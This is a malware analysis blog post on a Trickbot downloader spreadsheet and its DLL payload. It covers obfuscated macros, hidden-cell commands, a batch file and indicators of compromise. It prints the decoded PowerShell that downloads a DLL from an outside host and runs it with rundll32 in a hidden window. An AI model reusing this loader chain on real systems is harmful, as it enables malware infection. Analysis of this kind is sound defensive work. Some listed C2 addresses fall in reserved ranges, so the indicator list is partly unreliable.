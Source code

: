 ```yaml
---
layout: post
title:  "Trickbot Malware Analysis"
date:   2023-11-23 14:26:00 +0530
category: malware
---
```


![Cover](/files/images/trickbot_analysis_images/Cover2_trickbot.png)

# **Overview**
Trickbot malware first made its appearance in 2016 as an advanced banking trojan but has over the years advanced its capabilities to provide multiple functionalities and is also available as malware-as-a-service. Cyber criminal groups behind trickbot mostly use phishing emails which may contain a file attachment or a link to an external website. Trickbot can be used to drop other malwares, such as conti ransomware.  


# **Contents**
- Trickbot trojan downloader analysis
- Trickbot payload analysis
- Indicators of compromise
- MITRE ATTACK TTPs


# **Trickbot Downloader Analysis**

| sha256        | 5f87369f99f8c94f96d54a866723feb06dd721c478213f2dae2e9f4a1a14e3c |
| File Type     | .xlsm |

The detection rate for the loader file was still low as of the time this report was written. Only half of the vendors on VirusTotal are able to detect the file.

![virusTotalCheck](/files/images/trickbot_analysis_images/virus_total_check.png)

The **xlsm** file contains 4 macros streams
- **rthdsfigo7shoi4sudf**
- **rthofihgsixdcugf6fjhsdgf**
- **rtydsftgus6detriausdg**
- **xcgfhaiw7eygaisdhof**

![macroStreams](/files/images/trickbot_analysis_images/checking_embedded_macros.png)


The macros inside the xlsm file is obfuscated and contains jibrish variable names. But at **line 45** there is a **run** method being used to execute code. At **lines 51, 53 and 55** cell numbers are used corresponding to the cell numbers in the excel sheet. 

![macroCode](/files/images/trickbot_analysis_images/dump_file3_analysis.png)

The excel sheet at first glance doesn't seem to contain anything but after changing the background color the commands are visible inside the cells.

![emptyExcelSheet](/files/images/trickbot_analysis_images/decieving_empty_cells.png)

At **lines 52 and 54** the file name and command are being allocated to variable and then the commands at **cells (71,1) and (72,1)** get concatenated at **line 56**.

![visibleCodeInCells](/files/images/trickbot_analysis_images/empty_cells_with_commands.png)

At **line 57** the bat file is opened/created and the file number and the contents of the variable **ethjosdeghoaiuesgoaidheogfiasoeigfas8ude9** are passed to method **bhfwiuegiweoidhf**. The method **bhfwiuegiweoidhf** writes the contents of the variable **ethjosdeghoaiuesgoaidheogfiasoeigfas8ude9** (the obfuscated commands to be executed) to the bat file. This handle is assigned to the variable **sdfhaiygfoizjxbkojfdf’** and returned back to the calling funcition at line 44.

![code](/files/images/trickbot_analysis_images/cells_71_72_concatenated.png)

**Line 45** refers to **cells (108,10) and (102,14)** respectively which contain the following data.

![cell_108_102](/files/images/trickbot_analysis_images/cells_108_102.png)

Substituting the values of the cells mentioned above at line 45 will give us the following command.

`RDS.DataSpace.CreateObject(Wscript.Shell).Run rthofihgsixdcugf6fjhsdgf.TextBox1.Text &
hrkwdjksdjbk, 0`

The malware is using Microsoft ActiveX data object **RDS**. This allows to access and manipulate data on the machine. **RDS.DataSpace.CreateObject** object basically allows to create objects. Since Wscript.Shell is not predefined object inside VBA, a Wscript.Shell object is created. Here the variable **hrkwdjksdjbk’** refers to the file **\programdata\uegdsj.bat** and **0** parameter executes the bat file and hides the windows.

The code inside the bat file is also obfuscated to prevent analysis.

![batFileContents](/files/images/trickbot_analysis_images/bat_file_contents.png)

**Line 20** contains the **start** command. The **SET** command is being used to assign meaningful values to the variables which are then being used later in the **start** command. **Line 15 and 19** contain base64 encoded strings.

The decrypted strings contain code to be executed using powershell as shown below.

![decryptedStrings](/files/images/trickbot_analysis_images/decrypted_strings.png)

**string1**
```
$hgaisuekhd="c:\programdata\kgheowd.dll";
Invoke-WebRequest -Uri "https://rredgh.org/reply.php" -OutFile $hgaisuekhd;
$pt="c:\windows\system32\rundll32.exe";
$p=$hgaisuekhd+",SieletW
```

**string2**
```
;if(Test-Path $hgaisuekhd){if((Get-Item $hgaisuekhd).Length -ge 30000){Start-Process $pt-ArgumentList$p}}
```

The final command executed is
```
start/B powershell -enc string1 string2
```

The command 'start/B' starts powershell wihtout creating a windows and then executes the base64 encoded strings using the **-enc** option, which is short for **EncodedCommand** that is used to run base53 encoded commands. 

String1 uses the **Invoke-WebRequest** command to the payload from the link  **https://rredgh.org/reply.php**. String2 then creates a **rundll32** process using the parameters **c:\programdata\kgheowd.dll, SieletW**, which basically executes the exported function SieletW from the malicious dwonloaded Trickbot payload


# **Trickbot Malware Analysis**

| sha256        | 3b6ecc403a04c8df0c501d2cd369c01635620aa5eb2da01698d0d319dd1b781 |
| File Type     | .dll |

The payload as can be seen below contains the exported function **SieletW** function.

![exportedFunctionCffExplorer](/files/images/trickbot_analysis_images/SieletW_function_cffexplorer.png)

Dissassembly of the exported function function **SieletW** shows the following APIs being used:
- FindResourceA
- LoadResourceA
- VirtualAlloc
- Sleep
- CreateThread

![disassembly1](/files/images/trickbot_analysis_images/cutter_disassembly1.png)


![disassembly2](/files/images/trickbot_analysis_images/cutter_disassembly2.png)


The malware uses the windows build number to retrieve specific files.

![buildNumberUsed](/files/images/trickbot_analysis_images/build_number_usage.png)

The memory strings also contain ipaddress for C2 which the malware tries to connect to.

![processHackerIPs](/files/images/trickbot_analysis_images/process_hacker_ipaddresses.png)

![wireShark](/files/images/trickbot_analysis_images/wireshark_monitoring.png)

# **Indicators Of Compromise**

| 5f87369f99f8c94f96d54a866723feb06dd721c478213f2dae2e9f4a1a14e3c   | sha256, .xlsm file    |
| 3b6ecc403a04c8df0c501d2cd369c01635620aa5eb2da01698d0d319dd1b781   | sha256, .dll file     |
| c:\programdata\uegdsj.bat                                         | .bat dropped file     |
| c:\programdata\kgheowd.dll                                        | .dll dropped file     |
| https://rredgh.org/reply.php                                      | C2                    |
| 181.129.85.98                                                     | C2                    |
| 61.69.102.170:443                                                 | C2                    |
| 219.196.101.204:40965                                             | C2                    |
| 114.185.91.77:58258                                               | C2                    |
| 228.100.94.21:15105                                               | C2                    |
| 47.80.154.14:51982                                                | C2                    |
| 181.129.85.98:443                                                 | C2                    |
| 189.51.118.78:443                                                 | C2                    |
| 49.176.188.184:443                                                | C2                    |
| 213.32.252.221:443                                                | C2                    |
| 186.121.214.106:443                                               | C2                    |
| 89.13.62.95:13020                                                 | C2                    |
| 248.85.167.126:62436                                              | C2                    |
| 59.147.129.141:4865                                               | C2                    |
| 105.198.215.124:4101                                              | C2                    |
| 90.254.224.52:7937                                                | C2                    |
| 189.112.119.205:443                                               | C2                    |
| 15.107.104.39:732                                                 | C2                    |
| 115.195.205.216:3845                                              | C2                    |
| 114.76.201.233:33792                                              | C2                    |

# **MITRE ATTACK TTP**

| T1566.001     | Initial Access    | Phishing -> SpearPhishing Attachment                      | .xlsm file                            |
| T1204.002     | Execution         | User Execution -> Malicious File                          | .xlsm file, .dll file                 |
| T1027.010     | Defense Evasion   | Obfuscated Files or Information -> Command Obfuscation    | .bat file obfuscated commands         |
| T1027.009     | Defense Evasion   | Obfuscated Files or Information -> Embedded Payloads      | payload stored in resource section    |